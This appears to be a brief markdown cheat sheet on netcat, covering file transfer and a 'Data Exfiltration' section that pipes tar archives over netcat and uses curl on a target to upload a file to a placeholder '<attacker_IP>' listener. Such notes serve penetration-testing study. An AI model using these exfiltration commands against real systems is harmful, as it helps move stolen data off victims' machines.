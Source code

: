 # Netcat

## 01 - Transfer Files

- Sender

`$ nc -nvv <IP> 1024 < file.txt`

- Receiver

`$ nc -lnvp 1024 > file.txt`

## 02 - Data Exfiltration

- Method 1

```
$ nc -l 8080 > directory_data.tar.gz

$ tar cfvz - directory_data | nc -w 15 <IP> 8080 directory_data

$ tar xzf directory_data.tar.gz
```

- Method 2

```
$ nc -l 8080 | tar xzvf -

$ tar czf - directory_data | nc <IP> 8080
```

### 2.1 - HTTP Server

`$ nc -lnvp 4040 | tee file.txt`

### 2.2 - Target

`$ curl -T file.txt http://<attacker_IP>:4040`

---
## References

- [How to Use Netcat to Establish and Test TCP and UDP Connections](https://www.digitalocean.com/community/tutorials/how-to-use-netcat-to-establish-and-test-tcp-and-udp-connections)